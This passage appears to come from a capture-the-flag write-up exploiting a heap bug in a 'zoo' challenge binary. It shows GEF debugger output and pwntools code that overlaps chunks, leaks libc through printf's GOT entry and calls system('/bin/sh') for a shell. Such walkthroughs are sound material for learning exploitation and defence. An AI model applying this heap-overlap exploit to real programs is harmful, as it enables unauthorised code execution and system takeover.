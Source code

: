 ```bash
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
─────────────────────────────── Unsorted Bin for arena at 0x7f17eea04c80 ───────────────────────────────
[+] Found 0 chunks in unsorted bin.
──────────────────────────────── Small Bins for arena at 0x7f17eea04c80 ────────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
──────────────────────────────── Large Bins for arena at 0x7f17eea04c80 ────────────────────────────────
[+] Found 0 chunks in 0 large non-empty bins.

```

Afterwards, we can use `add_animal` again to create a overlap chunk and we can put the `speak` and `got@printf` inside the overlap for the libc address leakage by `report_name`.
```python
speak = elf.symbols['speak']
got_printf = elf.got['printf']

payload = p64(speak) + p64(0) + p64(got_printf)

add(1, payload) # 4

report(2)
ru(": ")

libc_base = u64(r(6).ljust(8, b'\x00')) - 0x60770
leak("libc_base", libc_base)
```

```bash
gef➤  tele &zoo
0x000000004040c0│+0x0000: <zoo+0> add DWORD PTR [rax], eax
0x000000004040c8│+0x0008: 0x000000011522a0  →  0x00000001153392  →  0x0000000000000000
0x000000004040d0│+0x0010: 0x000000011522e0  →  0x00000001153252  →  0x0000000000000000
0x000000004040d8│+0x0018: 0x00000001152320  →  0x000000004012b3  →  <speak+0> endbr64 
0x000000004040e0│+0x0020: 0x00000001152360  →  0x0000000000001152
0x000000004040e8│+0x0028: 0x00000001152380  →  0x000000004012b3  →  <speak+0> endbr64 

gef➤  tele 0x00000001152320
0x00000001152320│+0x0000: 0x000000004012b3  →  <speak+0> endbr64 
0x00000001152328│+0x0008: 0x0000000000000000
0x00000001152330│+0x0010: 0x00000000404040  →  0x007fb77d78a770  →  <printf+0> endbr64 

```

Finally, we put the system and "/bin/sh" address into the payload and create overlap chunks and get the shell.
```python
libc_base = u64(r(6).ljust(8, b'\x00')) - 0x60770
leak("libc_base", libc_base)

system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b'/bin/sh\x00'))
payload = p64(system) + p64(0) + p64(binsh)
add(1, payload)
add(1, payload)

add(1, payload)
report(1)
```
